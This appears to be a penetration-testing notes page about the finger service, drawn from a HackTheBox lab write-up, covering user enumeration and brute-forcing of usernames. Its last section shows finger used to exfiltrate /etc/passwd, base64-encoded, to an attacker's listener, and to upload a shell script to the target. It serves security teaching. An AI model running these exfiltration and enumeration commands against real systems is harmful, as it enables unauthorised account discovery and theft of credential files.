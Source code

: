 # Pentesting Finger

### Overview:

* The [finger](https://en.wikipedia.org/wiki/Finger\_protocol) daemon listens on port 79, and is really a relic of a time when computers were far too trusting and open. It provides status reports on logged in users. It can also provide details about a specific user and when they last logged in and from where.
* Credit: [https://0xdf.gitlab.io/2018/09/29/htb-sunday.html](https://0xdf.gitlab.io/2018/09/29/htb-sunday.html)

```
PORT      STATE SERVICE   VERSION
79/tcp    open  finger    Sun Solaris fingerd
```

* Finger is an exceedingly old protcol very rarely in use today.
* Nmap results can show logged in users&#x20;

```
| finger: Login       Name               TTY         Idle    When    Where\x0D
| sunny    sunny                 pts/1            Thu 14:52  10.10.14.245        \x0D
```

### Check for logged in users

```
finger @10.10.10.76
No one logged on
```

### Check for details on a user

```
finger jack@10.10.10.76
jack                  ???
#above does not exist 
finger root@10.10.10.76      
Login       Name               TTY         Idle    When    Where
root     Super-User            console      <Oct 14 10:28>
#user that does exist and is logged in 
finger ikeuser@10.10.10.76
Login       Name               TTY         Idle    When    Where
ikeuser  IKE Admin                          < .  .  .  . >
#user that does exist but is not logged in 
```

### Bruteforce Users

If finger returns no logged in users, we can try to brute force usernames. We’ll use the [finger-user-enum.pl](http://pentestmonkey.net/tools/finger-user-enum/finger-user-enum-1.0.tar.gz) script from pentestmonkey.

```
root@kali:~# ./finger-user-enum.pl -U /opt/SecLists/Usernames/Names/names.txt -t 10.10.10.76
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Usernames file ........... /opt/SecLists/Usernames/Names/names.txt
Target count ............. 1
Username count ........... 10163
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

######## Scan started at Thu Sep 27 17:39:02 2018 #########
access@10.10.10.76: access No Access User                     < .  .  .  . >..nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >..
admin@10.10.10.76: Login       Name               TTY         Idle    When    Where..adm      Admin                              < .  .  .  . >..lp       Line Printer Admin                 < .  .  .  . >..uucp     uucp Admin                         < .  .  .  . >..nuucp    uucp Admin                         < .  .  .  . >..dladm    Datalink Admin                     < .  .  .  . >..listen   Network Admin                      < .  .  .  . >..
anne marie@10.10.10.76: Login       Name               TTY         Idle    When    Where..anne                  ???..marie                 ???..
bin@10.10.10.76: bin             ???                         < .  .  .  . >..
dee dee@10.10.10.76: Login       Name               TTY         Idle    When    Where..dee                   ???..dee                   ???..
jo ann@10.10.10.76: Login       Name               TTY         Idle    When    Where..jo                    ???..ann                   ???..
la verne@10.10.10.76: Login       Name               TTY         Idle    When    Where..la                    ???..verne                 ???..
line@10.10.10.76: Login       Name               TTY         Idle    When    Where..lp       Line Printer Admin         
```

### Finger for file Transfers

#### finger for File Transfer <a href="#finger-for-file-transfer" id="finger-for-file-transfer"></a>

While working on this post, I was checking out [gtfobins](https://gtfobins.github.io/), and their page on finger shows how it can be used for file transfer. For example, to exfil the password file from Sunday, with the listener started locally:

```
root@sunday:~# finger "$(base64 /etc/passwd)"@10.10.14.5
[10.10.14.5]
```

```
root@kali:~/hackthebox/sunday-10.10.10.76# nc -lnvp 79 | base64 -d > passwd
listening on [any] 79 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.76] 54768

root@kali:~/hackthebox/sunday-10.10.10.76# cat passwd
root:x:0:0:Super-User:/root:/usr/bin/bash
daemon:x:1:1::/:
...[snip]...
```

You can upload files to a target machine as well:

```
root@kali:~/hackthebox/sunday-10.10.10.76# cat shell.py | base64 | nc -lp 79
```

```
root@sunday:~# finger x@10.10.14.5 > shell.b64
```
